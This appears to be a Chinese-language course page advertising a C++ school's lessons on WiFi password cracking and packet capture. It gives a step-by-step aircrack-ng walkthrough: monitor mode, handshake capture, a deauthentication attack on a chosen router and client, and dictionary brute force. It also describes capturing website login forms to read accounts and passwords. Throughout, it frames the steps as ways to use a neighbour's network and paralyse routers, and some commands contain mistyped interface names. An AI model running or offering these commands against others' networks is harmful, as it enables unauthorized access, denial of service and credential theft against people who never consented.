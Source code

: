 [TOC]
# WIFI密码破解与网络数据抓包——传智播客C++学院
# 【课程介绍】
屌丝逆袭之蹭网利器，在女朋友面前炫耀一下自己的“黑客功底”，在Linux的世界里，其实这都不是什么难事；瘫痪路由器，发起网络攻击，抓包数据分析，加入"网络圣战"，进入Linux世界，轻松让你成为“高逼格”的IT达人。
# 【课程知识点】
1. Wifi密码破解原理剖析
2. 网络数据抓包与分析
3. 路由器攻击，瘫痪网络
4. 随心所欲，开发定制密码字典
5. 枚举字典，暴力破解
6. 轻松使用”隔壁老王“的wifi
# 【课程详情】
##  Wifi密码破解原理剖析
## Aircrack-ng
### 下载

	http://www.aircrack-ng.org/
	http://www.aircrack-ng.org/downloads.html
	wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz

### 安装

	sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev
	tar xvf aircrack-ng-1.2-rc2.tar.gz
	cd aircrack-ng-1.2-rc2
	make
	sudo make install
## WIFI 密码破解
1. 查看本机电脑无线网卡

	iwconfig  或者 ifconfig

2. 激活网卡到monitor模式，得到监控模式下的设备名为wlan0mon

	sudo airmon-ng  start  wlan0

3. 探测无线网络，选取破解路由器对象

	 sudo airodump-ng  wlang0mon

4. 设定监控频道，抓取被选定路由器的数据包，始终运行

	sudo airodump-ng  --ivs  -w  linuxcpp  -c  6  wlang0mon

	捕获的包存入linuxcp-0x.ivs 文件。x为序号

5. 新开终端，发起Deauth攻击，迫使客户端重新链接路由器

	sudo aireplay-ng  -0  1  -a 路由器MAC  -h  合法链接客户端MAC   wlan0mon

	De-Authentication DoS
	去验证洪水攻击，国际上称之为De-authentication Flood Attack，全称即去身份验证洪水攻击或去验证阻断洪水攻击，通常被简称为Deauth攻击，是无线网络拒绝服务攻击的一种形式，它旨在通过欺骗从AP到客户端单播地址的去身份验证帧来将客户端转为未关联的/未认证的状态。

如果Deauth攻击成功，airodump-ng捕获handshake ，此时可以ctrl+c终止airodump-ng抓包。

![四次握手包](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/%E5%9B%9B%E6%AC%A1%E6%8F%A1%E6%89%8B%E5%8C%85.png "四次握手包")

6. aircrack-ng 穷举字典，暴力破解

	sudo aircrack-ng  -w  dic  linuxcpp-01.ivs

	破解成功与否取决与字典是否涵盖全面，破解速度取决于硬件计算性能和字典优化
![破解](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/1.png "破解")

![成功破解](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/%E7%A0%B4%E8%A7%A3%E6%88%90%E5%8A%9F.png "成功破解")

## 字典开发

##  网络数据抓包与分析

Wireshark是一个非常好用的抓包工具，当我们遇到一些和网络相关的问题时，可以通过这个工具进行分析，不过要说明的是，这只是一个工具，用法是非常灵活的。

![wireshark](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/5.png "wireshark")

wireshark下载地址

	https://www.wireshark.org/download.html

### 选取网卡

wireshark左上角，查找list那个钮。

### 设置抓包过滤器(CaptureFilters)

	语法： Protocol $ Direction $ Host(s) $ Value $ Logical Operations $ Other expression
	例子：  ip  src host  192.168.1.100 
	            tcp  dst  port  8080

#### Protocol（协议）:

可能的值: ether, fddi, ip, arp, rarp, decnet, lat, sca, moprc, mopdl, tcp and udp.

如果没有特别指明是什么协议，则默认使用所有支持的协议。

#### Direction（方向）:

可能的值: src, dst, src and dst, src or dst

如果没有特别指明来源或目的地，则默认使用 “src or dst” 作为关键字。
例如，”host 10.2.2.2″与”src or dst host 10.2.2.2″是一样的。

#### Host(s):

可能的值： net, port, host, portrange.

如果没有指定此值，则默认使用”host”关键字。
例如，”src 10.1.1.1″与”src host 10.1.1.1″相同。

#### Logical Operations（逻辑运算）:

可能的值：not, and, or.

否(“not”)具有最高的优先级。或(“or”)和与(“and”)具有相同的优先级，运算时从左至右进行。
例如:

	“not tcp port 3128 and tcp port 23″与”(not tcp port 3128) and tcp port 23″相同。
	“not tcp port 3128 and tcp port 23″与”not (tcp port 3128 and tcp port 23)”不同。

如果过滤器的语法是正确的，表达式的背景呈绿色。如果呈红色，说明表达式有误。

### 设置显示过滤器(DisplayFilters)

	语法： Protocol.String1.String2  $  Comparison operator  $  Value $ Logical Operations $ Other expression
	例子： ip.src==192.168.1.100  (显示来源为192.192.168.1.100的包)
	           tcp.port==80

### 网络封包分析

	捕获登陆某网站的表单，分析其账号和密码。

### 隔壁老王，蹭了你的网，看了你的信，就差......

如何防御呢？如何更灵活的进攻呢？欢迎大家走进传智播客c++学院，掌握高性能的c/c++语言，精通高B格的Linux系统编程，想要什么工具？自己写起。。。

## 广州c++分校开班 —— 2016年3月20号

## 北京总部c++开班 —— 2015年12月5号

![传智c++学院](https://raw.githubusercontent.com/xwpfullstack/openlessons/dev/img/6.png "传智c++学院")	
